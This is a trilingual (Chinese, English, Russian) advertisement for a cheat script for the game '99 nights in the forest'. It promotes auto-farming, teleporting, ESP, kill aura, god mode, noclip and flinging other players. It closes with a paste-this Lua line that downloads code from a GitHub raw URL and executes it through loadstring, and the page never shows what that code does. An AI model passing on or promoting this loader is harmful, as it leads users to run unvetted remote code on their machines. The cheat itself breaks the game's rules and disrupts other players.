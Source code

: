 
### 中文 (Chinese)
**标题：户晨风脚本：99 nights in the forest - 您的终极生存伴侣**
厌倦了在黑暗中挣扎求生吗？隆重推出户晨风 为《99 nights in the forest》打造的终极脚本，它将彻底改变您的游戏体验！凭借其强大而全面的功能，您将成为黑夜中真正的主宰。
**核心功能：**
* 🌟 **一键自动农场：** 自动砍树、烹饪、进食，解放您的双手。
* 🚀 **全图传送：** 瞬间移动到任何物品、孩子、或篝火旁，告别漫长的跑图。
* 🔮 **万物召唤：** 将地图上任何您需要的物品（包括稀有资源和敌人）直接召唤到您身边。
* 👁️ **终极透视 (ESP)：** 清晰显示玩家、宝箱、孩子和所有关键物品的位置，让一切无所遁形。
* ⚔️ **强大战斗功能：** 开启杀戮光环、无限血量和上帝模式，轻松应对任何威胁。
* 🎒 **自动任务：** 一键传送并自动收起所有走失的孩子，高效完成任务。
* ✨ **还有更多：** 飞行、穿墙、防物品掉落、自定义环绕种植、甩飞玩家……探索无尽的可能性！
立即获取，体验无与伦比的游戏优势。成为黑夜中最亮的光！
---
### English
**Title: ChenfengHu Script: 99 nights in the forest - Your Ultimate Survival Companion**
Tired of struggling to survive in the dark? Introducing the ultimate script for 99 nights in the forest by ChenfengHu, designed to completely revolutionize your gameplay experience! With its powerful and comprehensive features, you will become the true master of the night.
**Core Features:**
* 🌟 **One-Click Auto-Farm:** Automatically chop trees, cook food, and eat, freeing up your hands.
* 🚀 **Full-Map Teleport:** Instantly travel to any item, lost child, or bonfire. Say goodbye to tedious running.
* 🔮 **Summon Anything:** Bring any item you need on the map (including rare resources and enemies) directly to you.
* 👁️ **Ultimate ESP:** Clearly see the locations of players, chests, children, and all critical items, leaving nothing hidden.
* ⚔️ **Powerful Combat:** Activate Kill Aura, Infinite Health, and God Mode to effortlessly handle any threat.
* 🎒 **Auto-Questing:** Instantly teleport to and automatically bag all lost children for maximum efficiency.
* ✨ **And Much More:** Fly, Noclip (walk through walls), Anti-Item-Drop, Custom Circular Planting, Fling Players... Explore endless possibilities!
Get it now and gain an unmatched advantage in the game. Be the one who conquers the night!
---
### Русский (Russian)
**Заголовок: Скрипт ChenfengHu: 99 nights in the forest - Ваш Главный Помощник в Выживании**
Устали бороться за выживание в темноте? Представляем лучший скрипт для 99 nights in the forest от разработчика ChenfengHu, который полностью изменит ваш игровой процесс! С его мощными и комплексными функциями вы станете настоящим хозяином ночи.
**Ключевые функции:**
* 🌟 **Авто-фарм в один клик:** Автоматическая рубка деревьев, готовка еды и приём пищи, чтобы освободить ваши руки.
* 🚀 **Телепорт по всей карте:** Мгновенно перемещайтесь к любому предмету, потерянному ребёнку или костру. Забудьте о долгой беготне.
* 🔮 **Призыв чего угодно:** Призывайте любой нужный вам предмет на карте (включая редкие ресурсы и врагов) прямо к себе.
* 👁️ **Полный ESP (ВХ):** Чётко видите расположение игроков, сундуков, детей и всех ключевых предметов. Ничто не скроется от вас.
* ⚔️ **Мощные боевые функции:** Активируйте Kill Aura, Бесконечное здоровье и Режим бога, чтобы легко справляться с любой угрозой.
* 🎒 **Авто-квесты:** Мгновенно телепортируйтесь и автоматически собирайте всех потерянных детей с максимальной эффективностью.
* ✨ **И многое другое:** Полёт, проход сквозь стены (Noclip), защита от выбрасывания предметов, кастомная круговая посадка, подбрасывание игроков... Исследуйте безграничные возможности!
Скачайте сейчас и получите непревзойдённое преимущество в игре. Станьте тем, кто покорит ночь!
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/DUKECCB1337/PigGodAssets/main/Loader.lua"))()
